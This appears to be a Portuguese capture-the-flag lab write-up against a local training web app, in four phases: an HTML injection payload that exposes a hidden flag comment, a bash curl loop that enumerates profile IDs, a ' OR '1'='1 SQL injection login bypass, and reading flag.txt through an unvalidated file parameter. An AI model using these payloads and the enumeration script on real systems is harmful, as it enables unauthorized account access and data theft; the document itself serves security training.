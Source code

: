 ### Fase 1 — HTML Injection

**Comportamento observado ao enviar o conteúdo:**

```html
<p>Seu feedback: <input type="text" value="*texto que o usuário informa*"></p>
```

**Payload testado no campo:**

```html
"><textarea>
```

**Retorno recebido:**

```html
 <p>Seu feedback: <input type="text" value=""><textarea>"<!-- DICA SECRETA: flag{comentario_oculto} -->></p>
```

---

### Fase 2 — Access Control

Criei um script simples que varre IDs e detecta perfis válidos pela presença da string `Informações do Usuário` na resposta da requisição:

```bash
for id in {1..10000}; do
    response=$(curl -s "http://localhost:5000/perfil?id=$id")

    if echo "$response" | grep -q "Informações do Usuário"; then        
        echo "ID $id: http://localhost:5000/perfil?id=$id"
    fi
done
```

**Exemplo de saída:**

```bash
ID 1: http://localhost:5000/perfil?id=1
ID 1337: http://localhost:5000/perfil?id=1337
```

---

### Fase 3 — SQL Injection

A aplicação executa uma query SQL ao submeter `username` e `password`:

```sql
SELECT * FROM usuarios WHERE username = '' AND password = ''
```

**Exploração (exemplo):**

Injetando:

```sql
' OR '1'='1
```

A consulta resultante torna-se equivalente a:

```sql
SELECT * FROM usuarios WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

Isso retorna uma condição verdadeira, permitindo a autenticação.

---

### Fase 4 — IDOR (Insecure Direct Object Reference)

Acessei por um arquivo específico no servidor local, nesse caso `flag.txt`:

```url
http://localhost:5000/documento?file=flag.txt
```

Como a aplicação não valida o parâmetro `file`, isso permite o acesso a arquivos sensíveis.
